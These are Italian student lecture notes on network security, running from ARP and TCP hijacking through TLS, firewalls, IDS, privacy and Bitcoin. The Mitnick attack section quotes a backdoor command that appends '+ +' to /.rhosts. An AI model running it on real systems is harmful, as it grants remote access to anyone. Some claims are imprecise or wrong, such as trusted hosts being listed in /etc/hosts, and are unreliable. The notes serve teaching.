{width=500px height=216px}

## Attacchi ARP

ARP mappa gli indirizzi IP nel loro MAC address

**ARP Spoofing**: un attaccante manda delle false ARP Reply contenenti l'indirizzo IP della vittima e il proprio MAC address, il che porta a inserire nelle ARP Cache degli altri dispositivi delle entry false. ARP è stateless, si basa sulla fiducia. Funziona sono nelle LAN

{width=500px height=192px}

**ARP Poisoning**: “avvelenamento” della cache di un host, inserendo un dato falso. Dato che l’host è stateless (”non si ricorda le richieste che ha fatto”), quando riceve un ARP Reply si aggiorna/sovrascrive la tabella/cache, ed inviando delle ARP Reply finte (gratuitous ARP Reply) si cambia il MAC Address

**ARP Cache Poisoning**: Usato per effettuare gli attacchi *MITM* con doppio ARP poisoning a entrambi gli host. Facendo ARP Poisoning con un indirizzo che non esiste, i pacchetti andranno persi. Le entry delle cache hanno un timer.

ARP non è sicuro da questo punto di vista, sarebbe impossibile progettare una transazione ad una versione più sicura. Cosa si può fare quindi? È possibile riempire la ARP Cache tramite una tabella messa nel fs accessibile solo da root, e le ARP reply non modificano la tabella perchè definite dal system administrator

## MITM - Man in the middle attack

Mi inserisco tra il cliente e la applicazione web. Permette di effettuare sniffing e DOS

{width=400px height=182px}

## TCP Hijacking

Si tratta di dirottare una connessione TCP già stabilita. È un attacco ingneristico, non sfrutta bug

Il Seq number nel 3-way handshake parte da un numero casuale: sarà l’offset di partenza dei byte che invierà. TCP ritiene valido un pacchetto guardando solo i campi di porta e indirizzo IP, e ciò permette lo spoofing

Il comando `rsh` (remote shell) permette di eseguire comandi su altri pc tra host fidati, e gli host fidati sono contenuti nel file `/etc/hosts` o `/etc/hosts.equiv`. Modificandoli posso diventare un utente fidato. Si può evitare questo tipo di attacchi usando SSH, TLS o IPsec

{width=500px height=120px}


## Attacco di MITNICK

- Attaccante: Kevin Mitnick
- Vittime: PC di Tsutomu Shimomura + trusted server  

**Contesto:**

Nel 1994 TCP generava ISN prevedibili. Il sistema di Shimomura permetteva l'accesso automatico dal trusted server tramite rsh (fiducia basata su IP).

**RSH:** Remote Shell: permette l'esecuzione di comandi remoti senza password se l’IP è considerato fidato (ovvero nel file `.rhosts`, `hosts.equiv`).

**Ricognizione:** Mitnick usa `finger` e `showmount` per ottenere informazioni sugli utenti e sulle esportazioni NFS.

**Predizione ISN:** Invia vari (circa 20) SYN al trusted server, osserva gli ISN e riesce a predirli.

**Attacco:**

1. Lancia SYN flood contro il trusted server (lo rende non responsivo)
2. Invia SYN spoofato a Shimomura con IP del trusted server (porta rsh)
3. Shimomura risponde al vero server con SYN = 1 e ACK = 1 (che è in DoS)
4. Mitnick invia ACK con ISN corretto (indovinato / predetto) e completa la connessione spoofata

**Compromissione:** Esegue `echo + + >> /.rhosts`, consentendo accesso rsh da qualsiasi host.

L’attacco dimostra che TCP non fornisce sicurezza e che l’autenticazione basata su IP è intrinsecamente insicura: Mitnick riesce a predire l’ISN del server, il server non risponde a shimomura perchè è in DoS.

# (13) Crittografia Online e Sicurezza


## Cryttografia & Cybersecurity

Sistema di comunicazione sicura, effettuato tramite la crittografia

Crittografati tutti i pacchetti che escono dalla scheda di rete.

**MAC (Message Authentication Code)**: codice hash del (pacchetto+key simmetrica) accodato al pacchetto, consente di verificare se il messaggio ha subito delle modifiche.

{width=500px height=263px}

Il MAC permette di verificare l’autenticità e l’integrità. Per la non ripudiabilità serve la firma digitale. Gmail non cifra a livello applicazione, quindi tutte le mail sono cifrate per l’esterno ma sono in chiaro tra loro.

### Cifratura nei vari livelli:

- Cifratura a livello di rete: il pacchetto o il payload IP è cifrato lungo tutto il trasferimento e viene decrifrato dagli endpoint IPsec. Dipende rispettivamente da IPsec tunnel mode(intero pacchetto IP) o transport mode (solo payload) Permette un buon livello di sicurezza a livello di rete, e il programmatore non deve conoscere nulla di crittografia (trasperente)
- Cifratura a livello di trasporto (sopra TCP con TLS): (cifra il payload e i dati trasportati dai protocolli di trasporto, e gli header TCP/UDP e IP restano in chiaro). Si possono selezionare gli indirizzi IP o certi servizi (es: traffico TCP,UDP etc…) che si vogliono cifrare. In questo caso il programmatore deve usare le lib di cryptografia e le cryptosocket.
- Cifratura a livello Applicazione (End-to-End) (ES: GPG e whatsapp/signal). Il traffico è cifrato e decifrato dalle applicazioni sender e receiver. TCP trasporta dati già cifrati dal livello applicazione.

TLS protegge i dati fino al server destinatario, ma TLS non protegge dal Server mentre in E2E i dati potranno essere decifrati soltanto dall’applicazione.

## IPSEC: Ip Security Suite

È un protollo che offre servizi di sicurezza a livello di rete, che sono automaticamente ereditati dai protocolli di trasporto e applicazione. Consente al protocollo IP di aggiungere della sicurezza aggiungengo 1 o 2 header ad IPv4. IPSEC È Il protocollo standard per le **VPN**: fornisce molti servizi flessibili di sicurezza offerti da 3 protocolli (IKE: Key Management, AH: for authentication only, ESP che include anche encryption)

Fornisce: Confidenzialità, integrità e authentication. questi 3 sono tutti opzionali e sceglibili.

Campo AH nel pacchetto IP: fornisce un MAC per autenticazione dell’origine dei dati di un intero payload IPsec + che i campi dell’header IP che non siano modificati dai router. AH fornisce anche protezione dai Replay Attack, autentication + integrità.

**ESP** (Encapsulating Security Payload): è la componente che permette la cifratura del payload IPsec, fornisce autenticazione e integrità ha due modalità: trasport o tunnel.

- Tunnel mode: ha due funzionalità di VPN: network-network e host-network, i gateway rispettano le protezioni di AH o ESP. L’intero datagramma IP (incluso header IP) diventa il payload di IPsec preceduto dall’header IPsec, preceduto da un nuovo esterno Header IP. Avviene l’incapsulamento dell’intero datagramma IP originale.
- Transport mode: viene cifrato il payload IP, header IP originale resta visibile.

VPN = Tunnel Mode

Servizi offerti da IPsec:

- Replay protection
- Key management (IKE): meccanismo per gestire e proteggere le chiavi, che automatizza lo scambio di chiavi usando Diffie-Hellman
- Tunnelling (ESP - Encapsulating Security Payload): permette la creazione delle VPN utilizzando la modalità tunnel tra un host e l’altro

### HTTPS: Transport Level Security

HTTPS (HTTP Secure): Versione di HTTP sicura che usa TLS (Transport Layer Security) è il protocollo principale che rende sicuro il traffico web. Un client inizia una connessione TLS, poi trasmette i dati HTTP attraverso il canale.

**TLS** :si monta sopra TCP e fornisce servizi di sicurezza a livello applicazione.

**Servizi di TLS:**

- autenticazione di server e client
- integrità, data origin-authentication (con MAC), confidenzialità dei dati (connessione encrypted)
- Distruisce le chiavi di sessione (a fine connessione).
- Non fornisce non repudiabilità

Algoritmi di autenticazione usati sono RSA, DH, DSA  
Algoritmi di encryption: ChaCha20  
Algoritmi di hashing: sha2, sha 256  

TLS incapsula i dati applicativi in record TCP, e TCP trasporta (incapsula) tali record come payload. La creazione di un canale TLS Client-Server involve due protocolli:

1. **Handshake protocol**: risolvere il problema del key exchange, client e server si mettono daccordo sul protocollo da utilizzare, poi avviene lo scambio delle chiavi e vengono finalizzate le opzioni e i parametri del server.
2. **Record protocol**: viene cifrato il traffico utilizzando le chiavi create dall’ handshake protocol.

### Key Exchange - SSL / TLS handshake

L’obiettivo è ottenere una master key : un segreto conosciuto da entrambi che permette di derivare tutte le altre chiavi. 

- [ client -> server] invia client hello, invia un  1B che contiene gli algoritmi (CypherSuite) che ha a disposizione per la comunicazione.
- [ server -> client] server risponde con ServerHello, e gli conferma o suggerisce un altro CypherSuite.
- [ Server -> client] gli manda il suo certificato digitale.
- [ client -> server] valida il certificiato, e cifra una premaster secret con la key pubblica del server.
- [client -> server] invia al server la premaster secret cifrata.

Ogni volta ci colleghiamo ad un sito web si ha l’handshake


**PSK:** Pre-shared key: chiave che identifica una chiave master oppure PSK combinato con DHE. È un segreto stabilito fuori dalla banda o una key da una precedente connessione TLS. Un etichetta PSK (PSK Label) indica una lista di algoritmi e l’hash usato dal KDF (Key Derivation Function) per derivare dal master key e le chiavi operative (es. chiavi di sessione). Il PSK usato da solo **non garantisce la forward secrecy**: se la chiave a lungo termine viene compromessa, anche le comunicazioni passate possono esserlo.

La forward secrecy è invece ottenuta usando **DHE** o **PSK + DHE**, a condizione che le chiavi di lavoro siano **effimere** (cancellate dopo l’uso).

### Server Authentication

Se **dopo il 3-Way Handshake TCP** è abilitata l’autenticazione basata su certificati, **durante l’handshake TLS** il server invia un messaggio contenente il certificato e **una firma digitale del transcript del protocollo TLS fino alla fine del ServerHello** (se si usa autenticazione a certificati). Queste **signature forniscono data origin authentication dei parametri di handshake firmati** e dimostrano il possesso della chiave privata associata al certificato del server. È **obbligatorio** lo scambio dei messaggi **Finished** sia da parte del client sia da parte del server **al termine del TLS handshake** (non della connessione). I messaggi Finished contengono un **MAC calcolato su tutti i messaggi di handshake precedenti fino ai rispettivi punti**, fornendo a ciascun endpoint:

- prova di **integrità dell’intero handshake**
- **key confirmation**, cioè la dimostrazione che l’altro endpoint conosce il segreto condiviso (master key / segreti derivati dal key schedule).

### Encryption e Integrità

TLS punta a fornire un canale sicuro tra due endpoint e la creazione di chiavi autenticate, Ciò produce la master key e quelle secondarie (working keys) usate non solo per la confidenzialità, ma anche per estendere l’autenticazione per successivamente trasferire dati con un Algoritmo di cifratura autenticato (AE (Authenticated encryption) Algoritm), AE fornisce data origin-authentication attraverso il MAC.

### DH key exhange

Il DH Key Exchange è un protocollo crittografico che consente a due entità di stabilire una chiave condivisa e segreta utilizzando un canale di comunicazione insicuro (pubblico) 

Si considera un numero g, generatore del gruppo moltiplicativo degli interi modulo p (dove p è un numero primo)

1. Il Client sceglie un numero casuale a e calcola A = g^a mod p e lo invia tramite canale pubblico al Server, assiema a g e p
2. Il Server sceglie un numero casuale b e caclola B = g^b mod p e lo invia tramite canale pubblico al Client
3. Ora il client calcola Ka = B^a mod p e il Server clacola Kb = A^b mod p. I due valori Ka e Kb sono identici.

Ora i due interlocutori hanno stabilito una chiave segreta e possono cominciare ad usarla per cifrare le comunicazioni, in quando anche se qualcuno leggesse la comunicazione per calcolare a e b dovrebbe svolgere un'operazione di logaritmo discreto che è computazionalmente onerosa e sub-esponenziale, e quindi richiederebbe molto più tempo di calcolo di quello della attuale comunicazione

L'algoritmo di DH è attaccabile dal MITM attack, quindi per risolverlo si usano dei certificati

**End2End:** Il messaggio è cifrato e lo leggono in chiaro solo i due peer.

I protocolli usati sono MTProto (usato da telegram) e Signal (usato da Whatsapp e signal). 

## MTProto

Connessione tra due (`1` e `2`) persone su telegram, cè un server intermedio che si occupa di stabilire le chiavi tra server e host con DH k_1(dh) e k_2(dh). Coi messaggi normali il server vede tutto, le chiavi sono solo tra client e server, con le secret chat di telegram i due host (A e B) fanno Diffie helman

Telegram cambia la chiave ogni 100 messaggi, Signal cambia chiave ad ogni messaggio.

- **MTProto 2.0** è la versione attuale, con miglioramenti rispetto alla 1.0 (es. SHA-256 invece di SHA-1).
- Utilizza **AES-256 in modalità IGE** per cifrare i messaggi.
- **Chat cloud**: i messaggi sono decifrati e ricifrati sui server Telegram.
- **Chat segrete**: crittografia end-to-end, chiavi generate via **Diffie-Hellman**, messaggi non memorizzati sui server.
- La **forward secrecy** è limitata: una chiave compromessa può esporre fino a 100 messaggi.

## Signal

Usa: x3dh (triple DH)

Curve elluptict 25519 a chiavi a 256 bit (piccole). Signal garantisce: 

- Supporta:
    - **Forward e Future Secrecy:** impedisce ad un intruso di decifrare qualsiasi messaggio futuro utilizzando un messaggio di key compromesso o impedire ad un attaccante di trovare i messaggi precedenti usando una key compromessa.
    - **Message Unlinkability:** garantisce che, sebbene un messaggio sia stato associato a un utente, nessun altro messaggio possa essere collegato da quel punto.
    - **Offline Deniability:** un utente può negare la sua partecipazione ad una convesazione.
    - **Asincronia:** permette agli utenti di iniziare una comunicazione anche con destinatari che non sono online.

- Le chiavi vengono rinnovate continuamente, garantendo sicurezza anche in caso di compromissione
- End2end encryption: reale (non come telegram), i messaggi non restano sui server
- Perfect forward secrecy: La compromissinoe di una chiave non consente di decifrare messaggi passati
- Deniable autentication: non esiste una prova crittografica verificabile che colleghi un utente ad un messaggio specifiicol
- Comunicazione asincrona ( permette di iniziare comunicazione anche con altro host offline) (prekeys memorizzate sul server)

| Aspetto | Signal | MTProto |
|--------|--------|---------|
| E2E Encryption | Sempre attiva | Solo chat segrete |
| Cambio chiavi | Ad ogni messaggio | Ogni 100 messaggi |
| Forward Secrecy | Sì, completa | Limitata |
| Server access | No ai messaggi | Sì in chat cloud |
| Future Secrecy | Sì | No |
| Offline messaging | Sì | Limitato |
| Deniability | Sì | No |

# (14) Firewall

## Defensive (Cyber)-Security

**Standard di sicurezza** che guidano le organizzazioni su come costruire delle buone difese.

### Strategia di difesa:

{width=500px height=316px}

- Identify: identificare gli asset da proteggere.
- Protect: individua il meccanismo di protezione più adeguato.
- Detect: rilevare un eventuale tentativo di intrusione.
- Respond: (attacco che stiamo subendo) avere un piano, prevedendo i possibili scenari e le relative risposte.
- Recover: piano di recupero, dopo aver subito l’attacco

## Firewall

Firewall: Gateway (anche detto meccanismo di difesa perimetrale) che fornisce funzionalità di controllo di accesso, permette, rifiuta e potenzialmente modifica i dati che passano tra due reti o tra una rete e un dispositivo. Controlla il traffico (pacchetti) in entrata e uscita e decide chi fare passare in base alle regole impostate nella fase di configurazione e tiene traccia di tutto il traffico (logging) e si possono attivare delle notifiche in caso di pacchetti sospetti. Le regole per scartare un pacchetto si chiamano DROP. Lavora a livello di rete (pacchetti di rete), blocca i tentativi di attacco che arrivano dall’esterno. Un firewall non garantisce la sicurezza, ma scarta le cose più banali

Pacchetti Inboud e Outbuond: rispettivamente traffico in entrata e in uscita.

FW possono essere sia HW (firewall dedicati) che SW, anche detti screening router. Le azioni delle regole di un firewall vengono interpretate in ordine con cui sono state configurate, la prima in ordine di corrispondenza viene utilizzata, sono:

- ALLOW: permette ad un pacchetto di passare.
- DROP: scarta un pacchetto.
- REJECT: droppa e informa la sorgente (es: mandare un TCP rst (reset))

### Limitazioni dei firewall

1. Limitazione topologiche: FW assume che esiste un vero perimetro
2. Malevoli insider: gli utenti all’interno del firewall sono considerati fidati
3. Utenti fidati fanno connessioni malevoli
4. Transito del firewall con tunnelling: le regole si basano sul numero di porta
5. contenuto cifrato: non si riesce a utilizzare il payload perchè cifrato, a meno che vengono fornite le chiavi di decrittazione con funzionalità simili ad un proxy

## Tipi di firewall

- Packet filter: FW che lavorano sui pacchetti, ogni singolo pacchetto
    - Stateful inspection: FW che lavorano sulle connessioni (Liv. 4), oltre al contenuto del pacchetto vengono guardati anche quelli precedenti che formano una connessione (es: conn TCP).
    Costruisce una tabella delle connessioni e riconosce quelli della stessa connessione.
    - Stateless packet filter: ogni pacchetto viene processato indipendentemente dagli altri.
- Proxy Firewall: sdoppiano la connessione, riceve i pacchetti, li analizza e poi li manda su un altra connessione TCP, permette di svincolare la rete interna da quella internet.
- Personal Firewall: situato nei SO, filtra i pacchetti in entrata e uscita da un host.

### Packet filter

Contiene campi action e condizioni

Condizione: condizione che il FW che basa sul contenuto del pacchetto che sta leggendo. Anche se sono più vecchi, vengono comunque usati per ragioni di velocità e come primo filtro per ridurre il traffico anomalo

{width=500px height=420px}

### Proxy Firewall

Guardano l’header dei pacchetti IP. Hanno due proprietà: trasperanza all’utente e performance poco degradate.

Circuit level proxy: sdoppia la comunicazione, sostituito da Application-Level-Filter.

**Application Firewall (WAFF)**: tipo particolare di proxy firewall: hanno accesso al payload dei pacchetti (livello 7). attacco XSS è nel payload perciò servono questo tipo di firewall. Sono anche detti WAFF (Web-Application Firewall)

### Circuit Level Proxy

Circuit level Gateway è un proxy di livello 4, non controlla il payload, ma divide in due la connessione, garantendo invisiblità della rete interna.

Riesce a proteggere da questi tipi di attacchi: TCP SYN Flood (DOS), Ip spoofing, port scanning, ack flooding, blind detection, fragmented packet attacks,TCP session hijacking è più difficile da fare

### Vantaggi del proxy rispetto al packet filter:

Avendo un punto in cui il traffico si blocca si può controllarlo meglio, analizzando più cose si possono loggare più cose.

Svantaggio: più lantenza al contrario del packet filter. Di default cè la deny Rules (ultima riga della tabella sopra)

## NGFW (Next-Generation FW)

Aggiunge al firewall la capacità di intrusion prevention e ispezione avanzata; ha queste 3 capacità:

- Application awareness (layer 7): guarda la parte applicazione + la parte degli antivirus, ispeziona il traffico fino al livello applicazione per riconoscere e controllare specifiche applicazioni
- Native integration (all-in-one): combina più funzioni in un unico dispositivo/software: firewall stateful, IPS, controllo applicazioni, VPN, web filtering, anti-malware, sandboxing, logging e reportistica.
- User-identity: permette policy basate su utenti o gruppi

Riescono a identificare la applicazione sorgente di quel pacchetto, dal pacchetto IP.

**Personal Firewall**: Firewall SW implementato nei SO

Internet firewall: firewall che fungono da gateway tra più subnetwork.

### DMZ - (De Militarized Zone)

DMZ (Demilitarized Zone): è una sottorete tra quella esterna (ostile) e quella interna da proteggere, I protocolli permessi in una DMZ dovrebbero essere minimizzati.

{width=500px height=189px}

- Un azienda ci inserisce i suoi servizi pubblici, 
- Un utente di internet accede solo alla macchine in DMZ, non cè una connessione diretta tra la rete interna e l’esterna.

Garantiscono la sicurezza così che la compromissione di un eventuale elemento in DMZ non comprometta la rete aziendale interna (Intra-net). La DMZ serve perchè ci arriva direttamente internet, le macchine al suo interno hanno una alta probabiltà di attacco.

**Bastion Hosts (macchina Hardenizzata):** macchina con versioni SW modificate, più difficili da attaccare; è un firewall che è un host difensivo esposto ad una rete ostile, è designato per proteggere la rete interna (viene fatto hardening).

**Hardening**: togliere pezzi di SO per ridurre la superficie di attacco (con meno codice ho meno buchi di sicurezza)
(disabilitate tutte le interfacce, access point, APIs e servizi non essenziali per proteggere la rete interna)

Dual-Homed host: è un computer con due interfacce, una per l’esterno e una per l’interno, la funzionalità di routing tra le due interfaccia è disabilitata ed è un circuit-level-proxy, assicura che non cè una connessione diretta tra la rete interna ed esterna. Gli utenti dell’intranet posso accedere sia ad internet che alla DMZ, mentre da internet possono accedere solo a quest’ultima. DMZ tipicamente contiene web server, DNS, e alcune informazioni necessarie al funzionamento del web server.

# (15) IDS, SIEM e Privacy

## IDS

I primi IDS sono gli antivirus. Il difetto è che prima di avere la firma di un malware, il malware deve infettare qualcosa da cui poi prendere la firma. Successivamente sono arrivati i Firewall

L'antivirus rivela solo i malware, invece gli IDS (Intrusion Detection System) estende gli antivirus al concetto di "difesa da qualsiasi tipo di attacco" come ad esempio overflows. Gli IDS puntano ad automatizzare la fase di detection delle minacce

Gli IDS utilizzano i file del System Manager, come i file di log.  Gli IDS segnalano solamente il problema. Gli IPD (Intrusion Protection System) sono degli IDS che sono in grado di reagire se rilevano qualcosa di non corretto

Ci sono due diverse categorie di IDS:
  - NIDS: Network based Intrusion Detection System. Analizzano il traffico di rete
  - HIDS: Host based Intrusion Detection System. Analizzano i file di log dell'host

Gli HIDS controllano cose come OS System calls, command line, file accesses, privilege escalations, buffer overflows ecc
I NIPS individuano pachetti anomali utilizzando patterna matching, stateful matching, protocol anomaly, traffic anomaly e statistical anomaly

I controlli Anomaly-Based sono in grado di identificare nuovi tipi di attacchi che non sono mai stati effettuati. es. se un utente effettua operazioni insolite rispetto allo standard del sistema. Prima c'è una fase di training dove vengono trovati i pattern degli standard di un sistema. Dopodichè ogni comportamento al di fuori di esso è segnalato come anomalia

{width=500px height=256px}

Se l'IDS trova qualcosa non lo blocca come il firewall, lo segnala semplicemente al Securiry Analyst che deciderà se bloccarlo successivamente o no.

Il problema principale degli IDS è che generano moltissimi falsi positivi, che su grossi sistemi sono troppi errori segnalati da poter essere controllati da dei security analysts. Per essere efficiente dovrebbe dare circa il 99,99% di risultati corretti

{width=500px height=168px}

## SIEM

SIEM - Securty Information Event Managment svolgono il ruolo degli IDS. I SIEM sono dei sistemi che gestiscono Firewall e IDS e altri sistemi, correlano i loro dati e cercano di capire se ci sono problemi. Alcune SIEM sono avanzate e possono accedere al Dark Web ad esempio per verificare se ci sono in vendita dei dati già compromessi. Tutte queste sono funzionalità sono pagate extra. I SIEM sono forniti di sistemi per tradurre i file di log in vari formati diversi, per tradurli tutti in un formato di log unico così che sia leggibile e confrontabile. Le SIEM possono anche controllare gli accessi e i dati, e anche informazioni su chi ci accede e controllare sul dark web se le password o account sono stati leakkati.

SIEM fanno parte di CSOC (Cyber Security Operation Center): 

SOC (Security Operation Center): centri centralizzati che convergono informazioni della sicurezza (es: Telecom, fastweb). Nei SOC operano i CERTS (Computer Emergency Response Teams): gruppo di esperti che si occupano di gestire l’attacco e bloccarlo.

C-SOC: è il centro della sicurezza che controlla in tempo reale l’andamento della rete.  I CERTS dei vari paesi sono tutti collegati e svolgono attività di prevention. Ora si chiamano CSIRT (Computer Security Incident Response Team) per un discorso di licenze.

{width=500px height=254px}

I SOC sono strutturati su 3 livelli, il primo è stato sostituito dal SIEM e dal machine learning. 

Un honeypot è un sistema intenzionalmente vulnerabile utilizzato per attirare e monitorare attaccanti, al fine di raccogliere informazioni sulle tecniche di intrusione senza esporre i sistemi reali.

## Privacy

È più facile attaccare dei privati piuttosto che un azienda, i dati degli utenti hanno preso valore. L’informazione ha preso valore, dal lato della privacy va protetto, 

Data-Driven Decision making: approccio in cui decisioni operative, strategiche o automatizzate vengono prese sull’analisi di grandi dati, spesso in modo automatico.

Digital-Privacy: diritto degli individui di determinare quando e a che livello le informazioni che li riguardono possono essere comunicate ad altri.

Le informazioni vengono richieste, ma la vendità viola il principio del rispetto della privacy delle persone

- **PII** (Personal Identifiable Information): dati che consentono di risalire direttamente ad una persona
- **Non-PII** (Non PII): dati che non sono direttamente riconducibile ad una persona (es: film che vede)
- **Location data**: dati della posizione, non sufficenti a identificare una persona.
- **Device/network data**: dati della rete e del dispositivo, non sufficenti a identificare una persona.

Informazioni personali:  (nome, data nascita, n. telefono, indirizzo, dati bancari, dati biometrici, password,etc…)  
Informazioni di profilazione: query sul web, download, uso di applicazioni, dispositivo, attività social media. 

### Minacce alla privacy (Privacy- Threats)

Minaccia (threat) alla privacy: Qualsiasi atto, condizione o circostanza che rappresenti un rischio per la capacità di un individuo o di un'entità di mantenere il controllo sulle informazioni personali e riservate, impedendone l'accesso, l'uso, la divulgazione o la manipolazione non autorizzati il cui obiettivo è Acquisire informazioni personali. Possono essere attachi informatici, data breaches, attivitò di sorveglianza e furto di identità. Queste minacce possono sorgere da: Bug o vulnerabilità, archittettura di sicurezze sbagliate o comporamenti umani sbagliati. La protezioni dei dati personali, richiede disponibilità e conosce di strutture di sicurezza. I dati viaggiano in chiaro sulla rete e possono essere lette da chiunque. Le persone non hanno la percezione del valore che ha la loro privacy.

**Privacy-Gap**: Queste informazioni hanno molto valore, ma alla gente non interessa

**Attacchi alla privacy**: furto d’identità, profilazione utente, Data Breach.

### Furto di identità

acquisizioine non autorizzato di informazioni personali, spesso per un guadagno economico.

Spesso con attacchi phishing o data Breaches o social engineering, malware.

**Impatto sulla vittima**: perdite economiche, problemi legali, impatto emotivo.

Fattori di alto rischio: wifi pubblici, transazioni online non sicure, password deboli e riuso delle pw, mancanza 2FA.

### User Profiling

Profilazione del comportamento dell’utente dalle attività svolte per creare dei profili dettagliati degli utenti permettendo esperienza personalizzata e servizi mirati (come pubblicità mirata).
**Sorgente della profilazione**: attività online (siti visitati, click, ricerche, attività sui social media, posizione, cronologia acquisti)

Cookie WEB usati molto per la profilazione.

**Tecniche usate nella profilazione:** cookie web, tracciamento dei pixel, machine learning, social network analisys, data breaches, fingerprint comportamentali.

Surveillance Society: raccolta,memorizzazione e analisi di grosse mole di dati relativi alle persone.

The age of surveillance capitalism : sistema economico che trasforma l’esperienza umana in **dati comportamentali** da estrarre, analizzare e monetizzare.

### Data Breach

Attacco alla privacy
Accesso non autorizzato, acquisizione o perdità di informazioni sensibili portando a danno, abuso o sfruttamento, spesso memorizzate su un server che viene attacco tramite buchi di sicurezza.

Cause principali: hacking, malware, insider threat, furto o perdita di dispositivi, breaches di terze parti.

**Privacy:** diritto fondamentale ed è una delle cose più importanti.

### GDPR

**GDPR** (General Data Protecion Regulation): regolamento europeo con la concetrazione su cloud e social media, ma riguarda tutti.
Normativa euoripa che disciplina come i dati personali delle persone fisiche devono essere raccolti, trattati, conservati e protetti.

Direttive: indicazioni su come i paesi si devono comportare (Es: direttive monopattini) diventano legge dopo un pò di tempo. Legge unica per tutti i paesi. Key areas of GDPR:

- Diritto di accesso: ottenere la conferma del trattamento e accedere ai propri dati.
- Diritto di rettifica: Correggere dati inesatti o completarli.
- Diritto di cancellazione (essere dimenticati): Ottenere la cancellazione dei propri dati, quando consenso ritirato o non più necessari.
- Diritto di avere una copia dei dati che l’azienda ha.
- Diritto di sapere quello che lui fa con i tuoi dati.
- Diritto di restringere il processo dei dati
- Diritto di Opposizione: opporsi al trattemento per marketing diretto.
- Diritto di essere notificati ogni volta che vengono aggiornati i diritti.

Personal data ora includono anche IP dei dispositivi e ID dei cookie, oltre alle informazioni mediche, foto, e dettagli bancari.

Consenso informato: Richiesta di utilizzare i tuoi dati e profilare l’utente. Spesso anche se rifiutati, ti profilano lo stesso.

L’america non ha leggi sulla privacy, in europa invece è un diritto

### PET

PETs (Privacy-Enchancing Technologies): Tecnologie che riducono la raccolta di dati personali, tracciabilità e possibilità di profilazione.
proteggono l’identità dell’utente con: 

- Anonimato: poter operare sulla rete senza mai essere riconosciuto (NON può essere ottenuto sulla rete). Nascondere il collegamento di più azioni sulla rete alla stessa persona
- Pseudonimità: uso di un identità fittizia al posto dell’identità reale.
- Inosservabilità: poter fare azioni senza che qualcuno altro è a conoscenza. Include sia il non rilevare che un'azione è avvenuta (detectability) sia il non poterla collegare a un utente specifico (linkability/attributability).
- Unlinkability: non è possibile collegare più azioni alla stessa persona. (cancellando il cookie al termine della sessione) (TOR)

Un esempio di PET è TOR. Per proteggono l’identità da terze parti e dal loro processo di usare i dati. e non bisogna fidarsi su questi processi. Le PET forniscono agli utenti dei modi di rinforzare le preferenze bloccando localmente cookie, ads e pop-up e remotamente usando dispositivi hardware fidati, HSM, TPM.

{width=400px height=283px}

Anche se la comunicazione è cifrata, i dati del traffico possono rivelare molte infomrazioni. Un attaccante può modificare, ritardare, cancellare o iniettare messaggi e controllare alcuni nodi della rete,ma non può rompere gli algoritmi di cifratura e vedere nei nodi che non controlla. Ci sono tre criteri per decidere se un dataset è non anonimo:

- è possibile riconoscere un individuo?
- è possibie collegare due record?
- Si possono dedurre informazioni riguardanti un individuo?

# (BONUS) Criptovalute

Protocollo di comunicazione peer-to-peer per trasferimento di “moneta” virtuale chiamato Bitcoin.

BTC non garantisce anonimato, ma uno pseudo anonimicità:
Essendo pubblico il registro delle transazioni, collegando più transazioni con un indirizzo è possibile ottenere più informazioni. Utilizza funzioni hash e firma digitale per implementare i soldi, Non cè un entità fidata centrale e i soldi sono scambiati tramite transazioni. 

Transazione (tx / txs) -> validata -> aggiunta alla block chain -> completata

Tutte le transazioni vengono scritte in un Global Ledger (registro globale pubblico). Una transazione la chiave pubblica del destinatario e il valore hash che identifica univocamente la dichiarazione originale (implicitamente la quantità da trasferire). Una transazione contene il riferimento a una transazione precedente (hash), e il numero dell’output. per capire da dove arrivano le monete che si spendono, l’indirizzo del destinatario e la quantità. Si utilizza una struttura a Linked-List chiamata **Block-Chain**, ogni blocco della lista rappresenta un insieme di transazioni, e punta al predecessore, tramite un hashlink. Un Hashlink è un campo che contiene l’hash del blocco precedente. L’hash di un elemento contiene come input anche l’hash dell’elemento predecessore (elemento a cui punta).
Per verificare l’integrità si ricalcola l’hash di un blocco e lo si confronta con il valore memorizzato nel blocco successivo. La blockchain è verificabile pubblicamente, si può solo appendere elementi e non modificare il passato. Garantendo trasparenza e immodificabilità.

Un registro (Ledger) contiene chi ha i bitcoin.

{width=500px height=93px}

## Nodes

Il sistema si basa sui Nodi peer, che scambiano informazioni in un sistema distribuito.

**Full Nodes**: effettuano la validazione delle transazioni e mantengono tutto lo storico (*libro mastro)* delle transazioni (~ 500gb). (Miners sono un sottotipo di fullnodes).

**Light nodes**: non contenogno la storia di tutte le transazioni, ma solo delle ultime.

Algoritmo usato: ECDSA.

### Indirizzi:

Gli indirizzi degli utenti sono delle stringhe di valori esadecimali ottenuti da:

mainPart = RipeMD160 (sha256(K))

checksum = SHA256(SHA256(version::mainpart))
address = version::mainpart::(first 32 bit del checksum)

con `K` chiave pubblica

`version` è un byte di prefisso che indica il tipo di indirizzo e la rete. (è un byte di prefisso)

I miner ottengono nuove valute “minando” e queste vengono firmate digitalmente dal miner che le ha “minate”. (Gli altri miner verificano che la ricompensa sia esatta e non modificata). Ogni transazione viene firmata per evitare la contraffazione. Problema del double spending risolta con il Global Ledger: decentralizzato. Le transazioni sono collegate e muovono valuta da un indirizzo sender ad un ricevitore. I miner raccolgono le transazioni in blocchi (non modificabili) -> competono tra loro per validare i blocchi -> pubblicano 1 blocco sul Ledger. Ogni blocco contiene tra le 1000 e 2500 txs. Inizialmente vengono create le transazioni, dopo che un miner le valida e le inserisce in un blocco (pubblicato sul ledger) diventa valido.

{width=400px height=246px}

**Proof of Work (POW)**: compito difficile che richiede molta computazione, fornisce una ricompensa (reward) al completamento. POW è nel minare i blocchi.

I miner vengono ricompensati (block reward) con della valuta per ogni transazione che inserisce in un blocco e anche per ogni blocco che valida e pubblica (block subsidy). Una transazione richiede una piccola quantità di valuta come “tassa” (transaction fee), la somma di tutte le fee sono riscosse dal miner che mina quel blocco, sono considerate come parte del block reward.

block reward = block subsidy + transaction fees. I block subsidy vegnono dimezzati ogni 210k blocchi validati. Inzialmente era 50BTC, ora siamoa 3.125BTC

## Preparazione dei blocchi.

Le transazioni sono inviate nella rete peer-to-peer per inserirle nei blocchi dai miner, che competono per costruire dei *blocchi candidati***,** che rispecchiano le regole di ammissibilità per l’inclusione nella blockchain.
Richiede preparare l’header del block, dopo aver selezionato un insieme di transazioni, creando un Merkle root

Le transazioni di un blocco sono organizzate con una struttura dati Merkle hash tree.

{width=500px height=186px}

